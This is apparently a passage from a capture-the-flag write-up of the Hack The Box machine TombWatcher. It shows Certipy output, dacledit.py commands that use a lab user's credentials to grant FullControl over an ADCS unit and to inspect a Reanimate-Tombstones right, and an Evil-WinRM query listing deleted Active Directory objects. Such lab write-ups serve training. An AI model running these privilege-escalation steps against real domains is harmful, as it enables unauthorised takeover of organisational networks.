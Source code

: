         Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
        Certificate Validity Start          : 2024-11-16 00:47:48+00:00
        Certificate Validity End            : 2123-11-16 00:57:48+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : TOMBWATCHER.HTB\Administrators
          Access Rights
            ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            ManageCa                        : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Enroll                          : TOMBWATCHER.HTB\Authenticated Users
    Certificate Templates                   : [!] Could not find any certificate templates


Certipy didn't find anythign this time, so we have some sleuthing to do to better understand what John can do. We find that John has the permission to give full control over ADCS via more bloodhound output.

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250608-081550.bak
[*] DACL modified successfully!
```
And while we're at the useless edit, we can see something interesting in the validation step: ACE control over the namesake of the challenge "Reanimate-Tombstones".

I didn't know this before this challenge, but when you delete objects in AD, there's a window of time where they still exist in a recycle-bin-of-sorts. With this tombstone reanimation permission, we can restore these AD objects.

What we'll see in the following steps is the recovery of a certificate service manager account that DOES have access to some weak certificate templates that we'll abuse later. We'll also learn that it's important to manage permissions of your tools effectively to account for the newest of exploits.

```sh
/opt/venv/bin # dacledit.py -action 'read' -principal john -target-dn 'DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1392491010-1358638721-2126982587-1106)
[*]   ACE[12] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Reanimate-Tombstones (45ec5156-db7e-47bb-b53f-dbeb2d03c40f)
[*]     Trustee (SID)             : john (S-1-5-21-1392491010-1358638721-2126982587-1106)

```sh
*Evil-WinRM* PS C:\>  import-module activedirectory

*Evil-WinRM* PS C:\Users\John\Desktop> Get-ADObject -Filter 'isdeleted -eq $TRUE -and name -ne "Deleted Objects"' -IncludeDeletedObjects -Properties * | `Format-List cn,samAccountName,displayName,lastknownParent,whenchanged

```